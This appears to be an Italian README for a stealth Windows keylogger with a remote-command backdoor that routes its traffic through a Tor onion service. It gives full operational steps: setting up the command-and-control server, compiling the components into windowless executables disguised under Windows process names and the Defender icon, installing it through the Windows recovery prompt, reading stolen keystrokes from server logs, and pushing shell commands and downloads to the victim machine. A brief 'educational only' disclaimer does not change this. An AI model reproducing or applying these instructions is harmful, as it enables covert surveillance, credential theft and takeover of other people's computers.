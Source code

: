 <pre>
QUESTO PROGETTO É STATO CREATO SOLO A SCOPO EDUCATIVO E SPERIMENTALE, NON USARLO SU PC CHE NON SONO DI TUA PROPRIETÀ O NON FANNO PARTE DEL TUO LAB VIRTUALE!
ANCHE SE I NOMI SCELTI SONO ULTRA STEALTH NON SIGNIFICA CHE DEVE ESSERE USATO IN MODO SBAGLIATO!
Non mi assumo alcuna responsabilità per eventuali danni diretti, indiretti o collaterali derivanti dall’uso improprio o non autorizzato di questo strumento. L’utilizzo avviene esclusivamente sotto la piena responsabilità dell’utente.
  


--------------------------------------- TheHiddenWiredProject ---------------------------------------

Cosa è TheHiddenWiredProject?
TheHiddenWiredProject (THWP) è un keylogger con backdoor integrata pensato per essere ultra stealth
perchè tutto il traffico generato è instradato via Tor!

È sicuro?
Yeah bro, è 100% safe, il codice lo puoi modificare come vuoi senza problemi, mentre Tor ti aiuta
a nascondere il tuo server (serve per ascoltare il keylogger e usare la backdoor).

Quindi devo configurare un server?
Yeah, è necessario per avere un livello di anonimato abbastanza alto

É pronto all'uso?
Assolutamente no, lo devi compilare tu, è ultra facile, continua a leggere che dopo lo spiego

Lo consigli?
Assolutamente si! Questo tool è estremamente compatto, ma nello stesso tempo ultra stealth,
non troveresti mai un keylogger con una backdoor via Tor su internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Avvia proxy, Brain e Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Scaricato dal sito ufficiale, ma rinominato)
wuasrvs.py ---> Avvio di Tor ritardato per evitare errori
installer.bat ---> Installatore da WindowsPE

----------------------------------------------------------------------------------------------------

Passiamo alla teoria noiosa che è necessaria per configurare il server e compilare THWP

Partiamo dai requisiti necessari...

Un PC o una VM con linux (consiglio una distro debian-based come debian, ubuntu, mint.. ecc...)
Una connessione internet stabile (almeno 2Mbitps)

----------------------------------------------------------------------------------------------------
Creare e configurare il server Tor:

#Per evitare problemi diventa root con "sudo su"

#installa apache e tor
sudo apt install apache2 tor

#esegue ad ogni avvio in automatico
sudo systemctl enable apache2
sudo systemctl enable tor

#esegue i demoni
sudo systemctl start apache2
sudo systemctl start tor

#configura il server apache
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (qui ci stanno i comandi che il target eseguirá ogni 60 secondi)

#modifica il file torrc
sudo nano /etc/tor/torrc

#Aggiungi le seguenti informazioni alla fine del file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#La prima stringa "HiddenServiceDir" specifica dove tor andrà a salvare la config del server (NON METTERE DIRECTORY CUSTOM PER EVITARE PROBLEMI, LASCIALA COSÍ)
#La seconda stringa hosta sulla porta 80

#Adesso devi riavviare Tor per rendere effettive le modifiche
sudo systemctl restart tor

#Se hai dubbi vai su: https://community.torproject.org/onion-services/setup/
#Oppure chiedi a ChatGPT

#Adesso devi vedere il tuo dominio su tor, lo puoi vedere con:
cat /var/lib/tor/serverTHWP/hostname

#Per evitare problemi diventa root con "sudo su"

----------------------------------------------------------------------------------------------------

Adesso devi configurare TheHiddenWiredProject per fare in modo che indirizza il traffico verso il tuo dominio,
quindi modifica il file Isass.py, trova una variabile che si chiama "TARGET_ONION" (la trovi all'inizio),
e metti il tuo dominio (quello che finisce per .onion che hai trovato dentro il file hostname)

----------------------------------------------------------------------------------------------------

Adesso é tutto pronto! Puoi testare su una VM Windows il funzionamento, se tutto funziona puoi compilare tutto!

Per compilare tutto é necessaria una macchina Windows, useremo nuitka per trasformare i nostri file in python in eseguibili.

1) Installa Python nella macchina Windows (Non da MStore ma dal sito ufficiale)
2) Adesso apri il terminale e digita: pip install nuitka (Se pip non viene trovato, riavvia Windows dopo aver installato Python)
3) Adesso digita: nuitka --onefile --windows-disable-console file.py

#--onefile = unico file .exe
#--windows-disable-console = no prompt quando viene eseguito

4) Esegui nuitka per ogni file .py (Isass.py, WMIHost.py, wuasrvs.py)
5) Dopo aver compilato tutti i file py devi compilare SecurityHealthSystray.bat con Bat-To-Exe-Converter (Cercalo su internet) NB: INSTALLER.BAT DEVE RIMANERE RAW, NON DEVE ESSERE COMPILATO!
6) Aggiungi l'icona di defender al file .bat dentro il compilatore per avere un .exe con l'icona di Defender
----------------------------------------------------------------------------------------------------

Adesso hai quasi finito!
Copia il progetto compilato dentro una pendrive, copia il file installer.bat nella directory principale della chiavetta, rimuovi la cartella "WPE" (É fondamentale)
e il risultato dovrebbe essere questo:

E:\Isass.exe
E:\Installer.bat
E:\SecurityHealthSystray.exe
E:\WMIHost.exe
E:\wuasrv.exe
E:\wuasrvs.exe

Se non corrisponde hai sbagliato qualcosa.


Come lo installo??
1) Avvia Windows
2) Una volta che ti trovi nella schermata di blocco, vai nel menu di spegnimento, tieni premuto "SHIFT" mentre premi su "Riavvia"
3) Dovresti leggere a schermo "Attendere"
4) Dopo il riavvio vai su: Risoluzione dei problemi > Opzioni avanzate > Prompt dei comandi
5) Adesso cerca la lettera della chiavetta (varia da PC a PC), prova dalla C alla J (basta scrivere nel prompt la lettera seguita dai due punti, quindi "c:")
6) Una volta trovata la pendrive esegui installer.bat
7) Il PC si riavvierá da solo e TheHiddenWiredProject sará installato!
8) Divertiti!
----------------------------------------------------------------------------------------------------

Adesso come controllo i tasti premuti?
I tasti premuti vengono salvati nel server su "/var/log/apache2/access.log" in base32 in stack da 32 caratteri, bisogna decodificare da base32 a plaintext, basta cercare su internet "base32 to text", incolli la request e vedi i tasti premuti.

Esempio:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/ORSXG5BBEE======" 404

Prendiamo in considerazione solo la base 32, quindi questa: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA e questa: ORSXG5BBEE======
se la decodifichiamo diventa: 

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

Invece per eseguire codice nella macchina, tramite la backdoor, basta modificare il file: /var/www/html/payloads_httpcmd/default.txt
e scrivere codice shell per Windows, e verrá eseguito con i privilegi dell'utente corrente, possiamo anche scaricare file con curl ed eseguirli.
Ma attenzione, devi fare in modo che il codice shell non venga eseguito in loop, perché cosí rischi di fare casino, quindi una volta che vedi 
la richiesta del payload rimuovi il contenuto di default.txt, altrimenti il codice verrá eseguito ogni 60 secondi!

----------------------------------------------------------------------------------------------------

DIVERTITI IN MODO ETICO E SANO, SENZA FARE DANNI REALI A PERSONE, DATI O SISTEMI CHE NON TI APPARTENGONO!

                                                             Creato al 100% con la testa di ElektroWindows :)

</pre>
